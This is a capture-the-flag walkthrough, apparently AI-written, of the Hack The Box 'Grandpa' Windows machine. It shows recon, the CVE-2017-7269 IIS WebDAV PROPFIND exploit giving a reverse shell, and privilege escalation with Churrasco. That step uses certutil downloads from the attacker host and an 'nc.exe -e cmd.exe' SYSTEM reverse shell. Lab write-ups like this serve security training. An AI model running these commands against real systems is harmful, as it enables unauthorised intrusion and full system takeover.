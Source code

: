 
## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Exploits Used**:
  - [HTTP](HTTP) – WebDAV Support
  - **CVE-2017-7269** – [HTTP](HTTP) PROPFIND Buffer Overflow (RCE)
  - **CVE-2009-0078** – Local PrivEsc with `Churrasco.exe`

---

## 🧭 Recon

### 🔍 Nmap Scan
```bash
nmap -sV -sC -oA grandpa 10.10.10.14
```

**Result:**
```
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD COPY MOVE PROPFIND SEARCH LOCK UNLOCK
|_  Potentially risky methods: TRACE COPY MOVE PROPFIND SEARCH LOCK UNLOCK
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
```

IIS 6.0 with [HTTP](HTTP) **WebDAV** extensions is exposed — great target for known RCEs.

---

## 🔎 WebDAV Test – [HTTP](HTTP)

### 🌐 Test with `davtest`
```bash
davtest -url http://10.10.10.14
```

**Result:**  
No upload capability, but [HTTP](HTTP) verbs like `PROPFIND`, `SEARCH`, and `LOCK` are enabled.

---

## 🧨 Initial Foothold – [CVE-2017-7269 (PROPFIND RCE)](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/tree/master)

### 🛠️ Clone Exploit
```bash
git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269.git
cd iis6-exploit-2017-CVE-2017-7269
```

### ✏️ Rename if needed
```bash
mv iis6 reverse.py
```

### 📡 Set Up Listener
```bash
rlwrap nc -lnvp 4444
```

### 🚀 Launch Exploit (Over [HTTP](HTTP))
```bash
python2 reverse.py 10.10.10.14 80 10.10.14.10 4444
```

### 💥 Shell Received
```cmd
whoami
nt authority\network service
```

### 🧾 Grab User Flag
```cmd
type "C:\Documents and Settings\NetworkService\Desktop\user.txt"
```

---

## 🧱 Privilege Escalation – SYSTEM

### 📄 System Info
```cmd
systeminfo > info.txt
```

### 🔍 Find Privesc with `wes.py`
```bash
./wes.py info.txt
```

### 🎯 Vulnerability Found: **CVE-2009-0078**
- Exploits `SeImpersonatePrivilege`
- Works perfectly on this unpatched 2003 box

---

## 🚒 SYSTEM Shell via Churrasco

### 🧷 Download Churrasco
```bash
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
```

### 📦 Transfer Payload & Listener
```bash
# On Attacker
updog -p 80

# On Victim
certutil -urlcache -split -f http://10.10.14.10/churrasco.exe churrasco.exe
certutil -urlcache -split -f http://10.10.14.10/nc.exe nc.exe
```

### 🛰️ Setup Second Listener
```bash
rlwrap nc -lnvp 5555
```

### 🚀 Execute SYSTEM Shell via Churrasco
```cmd
churrasco.exe -d "nc.exe 10.10.14.10 5555 -e cmd.exe"
```

### ✅ SYSTEM Confirmed
```cmd
whoami
nt authority\system
```

---

## 🏁 Grab Root Flag
```cmd
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

---

## ✅ Summary

| Phase | Details |
|-------|---------|
| **Recon** | Found IIS 6.0 [HTTP](HTTP) server with WebDAV support |
| **Initial Access** | CVE-2017-7269 – Exploited PROPFIND via [HTTP](HTTP) for RCE |
| **Privesc** | CVE-2009-0078 – Used Churrasco to escalate to SYSTEM |
| **Flags** | Retrieved `user.txt` and `root.txt` |

---

Let me know if you'd like a `.md` version or one formatted for a report 📄✨